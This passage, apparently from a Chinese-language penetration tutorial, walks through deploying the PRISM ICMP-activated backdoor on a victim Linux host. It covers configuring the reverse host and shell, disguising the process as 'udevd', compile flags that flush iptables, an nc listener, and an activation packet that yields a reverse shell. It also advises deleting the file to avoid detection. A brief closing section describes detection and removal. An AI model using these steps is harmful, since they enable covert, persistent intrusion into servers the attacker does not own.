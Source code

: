4、ICMP后门

在控制端下载脚本：git clone https://github.com/andreafabrizi/prism.git

git下来之后，还需要进行编辑操作

先编辑prism.c，修改宏定义部分：



40 #ifdef STATIC
 
41 # define REVERSE_HOST     "10.0.0.1"  //连接到主控机的IP地址
 
42 # define REVERSE_PORT     19832   //连接到主控机的端口号
 
43 # define RESPAWN_DELAY    15  //后门机尝试连接的空闲时间间隔
 
44 #else
 
45 # define ICMP_PACKET_SIZE 1024  //ICMP数据包的大小
 
46 # define ICMP_KEY         "linger"  //连接的密码
 
47 #endif
 
48
 
49 #define VERSION          "0.5"   //版本信息
 
50 #define MOTD             "PRISM v"VERSION" started\n\n# "  //后门机连接时显示的消息
 
51 #define SHELL            "/bin/sh"  //shell执行的位置
 
52 #define PROCESS_NAME     "udevd"   //创建的进程名称
交叉编译prism后门

gcc <..OPTIONS..> -Wall -s -o prism prism.c

可用的参数<OPTION>选项：

-DDETACH //后台运行

-DSTATIC //只用STATIC模式（默认是ICMP模式）

-DNORENAME //不再重命名进程名

-DIPTABLES //清除所有iptables规则表项

如：gcc -DDETACH -DNORENAME -Wall -s -o prism prism.c

编译好之后把prism上传到远程后门主机，再运行sendPacket.py脚本，需要root权限。最好就是将prism.c文件上传到后门主机再进行编译，这样更容易成功。



在攻击者机器上运行nc等待后门的连接：nc -l -p 6666

使用sendPacket.py脚本（或其他数据包生成器）将激活数据包发送到后门：

./sendPacket.py 192.168.30.141 123456 192.168.30.131 6666

192.168.30.141 是运行棱镜后门的受害者机器

123456是密钥

192.168.30.131是攻击者机器地址

6666是攻击者机器端口



这种后门方式对于采用了很多限制比如限制了ssh的远程服务器来说，是比较不错的，而且prism服务端运行后会在后门一直运行，除非重启服务器。所以运行后门后删除自身文件将不容易被发现。

清除方式

因为该后门重启会失效，除非写在开机启动项里，所以首先要检查启动项有没有异常情况，比如/etc/rc.local是否有未知的启动脚本

其次，这个后门可以改变后门进程名，但是还是有进程存在，所以要查出这个未知进程，可以用工具查找，kill掉

然后，该后门是使用了icmp的ping包激活的，所以可以过滤icmp包

最后，需要设置好严格的iptables规则，这个后门可以按照攻击者的设置尝试清楚iptables规则，需要定期查看iptables规则是否正常
